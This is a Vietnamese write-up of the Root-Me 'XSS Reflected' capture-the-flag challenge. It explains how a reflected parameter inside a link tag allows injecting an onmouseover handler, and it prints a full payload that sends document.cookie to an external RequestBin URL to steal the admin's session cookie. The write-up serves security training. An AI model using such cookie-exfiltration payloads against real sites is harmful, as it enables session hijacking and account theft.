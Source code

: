 # [XSS Reflected](https://www.root-me.org/en/Challenges/Web-Client/XSS-Reflected)

Kiểm tra source website ta thấy web bị comment 1 thẻ <<a>> dẫn đến `?p=security`:

![](./media/image1.png)

Request đến `?p=security`, website hiển thị trang web lỗi và có một hyperlink thẻ `<a>` hiển thị nội dung `security`:

![](./media/image2.png)

Thử nhập `?p=<giá trị khác>`, page sẽ báo lỗi và hiển thị nội dung `<giá trị khác>` trong thẻ `<a>`. Như vậy, lợi dụng thẻ `<a>` này, ta thực hiện đóng quote cũng như chèn thêm event để thực hiện XSS:

![](./media/image3.png)

Đến đây, sau khi thử get trực tiếp document.cookie nhưng không có giá trị, ta thực hiện gửi HTTP Request và qua RequestBin chờ cookie.

Payload: <http://challenge01.root-me.org/web-client/ch26/?p=nh4ttruong%27%20onmouseover=%27document.location=%22https://eol9dtzbk9673pb.m.pipedream.net?%22.concat(document.cookie)>

Thực hiện request với payload, sau đó ta trigger event `onmouseover` và di chuyển chuột qua thẻ `<a>` để chuyển hướng website:

![](./media/image4.png)

Sau đó, ta thực hiện lại một lần nữa nhưng sẽ thực hiện thêm bước Report đến admin đển POST request:

![](./media/image5.png)

![](./media/image6.png)

Qua **RequestBin** và nhận flag:

![](./media/image7.png)

- Flag: "****************************"
